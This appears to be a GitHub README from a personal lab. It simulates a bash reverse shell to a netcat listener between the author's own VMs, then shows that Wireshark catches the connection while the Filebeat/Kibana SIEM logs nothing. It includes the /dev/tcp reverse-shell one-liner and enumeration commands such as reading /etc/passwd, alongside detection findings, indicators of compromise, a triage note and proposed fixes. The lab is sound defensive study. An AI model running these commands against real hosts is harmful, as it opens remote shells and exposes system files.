






# Reverse-Shell-C2-
Reverse Shell / C2 Simulation and the Limits of Log-Based Detection


## Objective
The objective of this lab is to simulate a post-exploitation reverse shell connection — the stage after an attacker has already gained code execution on a victim host — and evaluate what network-layer (pcap) versus host-log-based (SIEM) monitoring each can and cannot see. Unlike the SSH brute-force and SQL injection labs in my repository, this attack generates **outbound** traffic from the victim, and deliberately tests the current SIEM setup's blind spots rather than its detection strength.

## Environment
| Role | Hostname | Tool Stack |
|---|---|---|
| Attacker | paull-attacker-kali | Kali Linux, Netcat listener |
| Victim | paull-analyst | Ubuntu Server, Bash, tcpdump |
| SIEM | paull-sensor | Ubuntu Server, Elasticsearch, Kibana, Filebeat (unchanged from prior labs) |

## Attack Simulation

**Scenario:** simulating the moment after an attacker has already achieved code execution on the victim ( via a web shell dropped through the earlier SQL injection finding, in a realistic attack chain) and now establishes a live, interactive command channel back to their own machine.

**Step 1 — Listener on Kali (attacker side):**
```bash
nc -lvnp 4444
```


**Step 2 — Packet capture started on the victim, before triggering the shell:**
```bash
sudo tcpdump -i ens33 -w /home/paull/lab3_reverseshell_capture.pcap
```


**Step 3 — Reverse shell triggered on paull-analyst:**
```bash
bash -i >& /dev/tcp/<kali-ip>/4444 0>&1
```


**Step 4 — Post-exploitation commands run from Kali, through the shell:**
```bash
whoami
id
pwd
hostname
cat /etc/passwd
ls -la /home
```


**Step 5 — Capture stopped  on wireshark and shell closed** once command execution was confirmed.

## Detection — Network Layer (Wireshark)

Opened the capture and filtered to the relevant port:
```
tcp.port == 4444
```


**Findings:**
- A full TCP handshake (SYN → SYN-ACK → ACK) initiated **from paull-analyst (victim) to paull-attacker-kali** — this directionality is the key red flag. Legitimate internal hosts rarely initiate outbound connections to arbitrary high ports; this pattern is a strong indicator of C2/reverse-shell activity, distinct from normal client-server traffic.
- Checked **Statistics → Conversations → TCP tab**: this connection showed a significantly longer duration than any other traffic in the capture, consistent with an interactive session staying open for the length of the command sequence — a different signature from Hydra's rapid-fire short connections in my hydra lab series.
- **Followed the TCP stream** (right-click → Follow → TCP Stream): since this is unencrypted `nc`/bash traffic (unlike SSH), the actual commands and their output were visible in plaintext — direct confirmation of real command execution on the victim, not just a connection attempt.

## Detection — Host/SIEM Layer (Kibana)

Searched the existing `filebeat-*` data view for any trace of the activity:
```
message: "4444" or message: "nc" or message: "bash"
```

**Result: no relevant matches returned.**


I expected, because it is the central finding of this particular lab, rather than a failure of the setup. The current Filebeat configuration ships only `/var/log/auth.log`, `/var/log/syslog`, and Apache access/error logs. A raw bash reverse shell doesn't authenticate via SSH, doesn't touch the web server, and by default doesn't write to any of the log files being monitored — so it is **completely invisible** to the current SIEM pipeline, despite being clearly visible at the network layer.

## IOC Table

| IOC Type | Value | Context |
|---|---|---|
| Destination IP | 192.168.142.139 | C2/listener endpoint |
| Source IP | 192.168.142.138 | Compromised host initiating outbound connection |
| Port | 4444 | Non-standard port used for the reverse shell listener |
| Direction | Outbound, victim → attacker | Key distinguishing pattern vs. normal inbound service traffic |
| Connection behavior | Long-lived, interactive | Consistent with a live shell session rather than a single request/response |
| Detected via | Network capture (Wireshark) only | Not visible in host/application logs with current logging configuration |

## Triage Note

```
yaml
Alert: Reverse Shell / C2 Connection Identified (via manual pcap review — no automated alert exists for this)
Host: paull-analyst (Ubuntu-Victim)
Destination IP: 192.168.142.139
Port: 4444
Timestamp: 2026-09-15 04:47
Detection Source: Network capture only (Wireshark) — NOT visible in SIEM/Kibana
Verdict: True Positive (simulated)
Severity: Critical
Next Steps:
  - Isolate the host from the network immediately
  - Kill the reverse shell process and any persistence mechanisms
  - Review what allowed initial code execution (in this simulated chain, the earlier SQLi finding allowed it)
  - Close the detection gap: current logging does not cover this attack class at all — see Key Takeaway below
```

## Timeline

> At 2026-09-15 04:47, host paull-analyst initiated an outbound TCP connection to paull-attacker-kali on port 4444, consistent with an interactive reverse shell. The connection remained open for the duration of a command sequence including `whoami`, `id`, `pwd`, `hostname`, and file enumeration commands, all observed in plaintext via packet capture. No corresponding evidence of this activity was found in the SIEM (Kibana/Elasticsearch), as the current log sources (auth, syslog, Apache) do not capture this type of host-level process activity.

## Key Takeaway

This lab intentionally demonstrates a detection gap rather than a detection success, and that distinction is itself the value of the exercise. The SSH brute-force lab showed that encrypted traffic can still be detected through host-log correlation; the SQL injection lab showed that plaintext web traffic logs the attack payload directly. This reverse shell lab shows a third case: an attack that produces **no logs at all** in a typical log-forwarding setup, because it never touches an application that logs (SSH daemon, web server) — it operates at the OS process/network level instead.

**The fix :** closing this gap requires either (1) host-based process monitoring — auditd rules for suspicious process execution (e.g., `bash` spawning with unusual parent processes, or connections to `/dev/tcp/`), or a Sysmon-for-Linux equivalent, shipped into the same SIEM pipeline, or (2) network-level detection, such as an IDS (Suricata/Zeek) watching for outbound connections to non-standard ports or known C2 behavior patterns, rather than relying on host logs alone.

## Tools Used
- Kali Linux, Netcat (nc)
- Bash (`/dev/tcp` reverse shell technique)
- tcpdump, Wireshark
- Elastic Stack (Elasticsearch, Kibana), Filebeat (used here to demonstrate its current limitation)
